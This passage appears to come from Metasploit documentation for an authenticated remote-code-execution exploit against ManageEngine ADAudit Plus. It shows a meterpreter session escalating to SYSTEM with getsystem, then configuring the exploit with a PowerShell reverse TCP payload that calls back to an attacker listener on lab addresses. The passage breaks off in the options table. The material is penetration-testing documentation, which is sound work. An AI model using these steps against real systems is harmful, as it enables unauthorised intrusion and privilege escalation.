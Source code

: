 ```
Server username: DAFOREST\Administrator
meterpreter > getprivs

Enabled Process Privileges
==========================

Name
----
SeBackupPrivilege
SeChangeNotifyPrivilege
SeCreateGlobalPrivilege
SeCreatePagefilePrivilege
SeCreateSymbolicLinkPrivilege
SeDebugPrivilege
SeDelegateSessionUserImpersonatePrivilege
SeEnableDelegationPrivilege
SeImpersonatePrivilege
SeIncreaseBasePriorityPrivilege
SeIncreaseQuotaPrivilege
SeIncreaseWorkingSetPrivilege
SeLoadDriverPrivilege
SeMachineAccountPrivilege
SeManageVolumePrivilege
SeProfileSingleProcessPrivilege
SeRemoteShutdownPrivilege
SeRestorePrivilege
SeSecurityPrivilege
SeShutdownPrivilege
SeSystemEnvironmentPrivilege
SeSystemProfilePrivilege
SeSystemtimePrivilege
SeTakeOwnershipPrivilege
SeTimeZonePrivilege
SeUndockPrivilege

meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter >
```

### ManageEngine ADAudit Plus build 7005 running on Windows Server 2022 - Powershell Payload

```
msf > use exploit/windows/http/manageengine_adaudit_plus_authenticated_rce
[*] Using configured payload cmd/windows/powershell_reverse_tcp
msf exploit(windows/http/manageengine_adaudit_plus_authenticated_rce) > set RHOST 192.168.204.136
RHOST => 192.168.204.136
msf exploit(windows/http/manageengine_adaudit_plus_authenticated_rce) > set LHOST 192.168.204.128
LHOST => 192.168.204.128
msf exploit(windows/http/manageengine_adaudit_plus_authenticated_rce) > show options

Module options (exploit/windows/http/manageengine_adaudit_plus_authenticated_rce):

   Name         Current Setting             Required  Description
   ----         ---------------             --------  -----------
   AUTH_DOMAIN  ADAuditPlus Authentication  yes       ADAudit Plus authentication domain (default is ADAuditPlus Authentication)
   PASSWORD     admin                       yes       Password to authenticate with
   Proxies                                  no        A proxy chain of format type:host:port[,type:host:port][...]
```